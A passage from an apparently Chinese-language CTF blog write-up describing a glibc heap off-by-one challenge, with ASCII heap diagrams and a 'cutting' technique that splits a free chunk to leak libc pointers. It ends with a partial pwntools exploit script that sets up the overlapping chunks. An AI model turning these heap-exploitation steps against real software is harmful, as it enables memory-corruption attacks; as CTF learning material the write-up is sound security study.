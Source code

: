 利用时候，OFF BY ONE导致输入总是存在一个\x00。输出的数据总是无法长于 malloc时输入的数据，导致超长的chunk也无法泄露地址（fd和bk）。。。

```
+--------------+	<--malloc(0x451)
|		string...	 |
|    "\x00" 	 |
+			...			 +
|			fd			 |
|			bk			 |
+--------------+
```

**如何解决呢**

Get一个神奇的方法，我称之为***切割法***.

通过malloc一个合适大小的chunk，glibc会对大free chunk进行分割。分割会产生新的free chunk（当然也有fd和bk）。此时我们发现fd和bk正好落到了我们chunk_2的指针处。此时通过show就可以直接将值打印出来了。

```
+--------------+	<--free(0x451)				+--------------+ <--malloc chunk(0x200)
|			fd			 |												|			   			 |
|    	bk		 	 |												|    		  	 	 |
+			...			 +  <--chunk pointer	==> +			...			 + <--chunk pointer
|							 |(被包含于freechunk中)		 |			fd			|
|			  			 |								        |			bk			 |
+--------------+                        +--------------+ 
```

![zd9Po9](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/zd9Po9.png)

这个方法前提需要一个重叠堆，并且内部指针没有被free。不过这种读取问题也只有off by one会发生，所以没有什么普适性。

```python
#!/usr/bin/python
from pwn import *

p=process(['./timu'],env={"LD_PRELOAD":"/home/p0kerface/Documents/babyheap/"})
context.log_level='Debug'
gdb.attach(p,"b *0x555555554abd")

def malloc(size,data):
	p.recvuntil("Your choice :")
	p.sendline(str(1))
	p.recvuntil("Size:")
	p.sendline(str(size))
	p.recvuntil("Data:")
	p.sendline(data)

def free(index):
	p.recvuntil("Your choice :")
	p.sendline(str(2))
	p.sendline(str(index))

def show():
	p.recvuntil("Your choice :")
	p.sendline(str(3))

malloc(0x100,"A"*0x20)					#0
malloc(0x65,"b"*0x20)					#1
malloc(0x100,"a"*0x20)					#2	-->leak_libc
malloc(0x58,"B"*(0x50)+p64(0x250))			#3	-->off by one
malloc(0x200-0x10,'C'*0x20)				#4	-->fake preinuse & presize=250
malloc(0x28,"D"*0x20)					#5
free(3)
#free(2)							#2	-->for leak unsort bins	
free(0)
#####off by one
```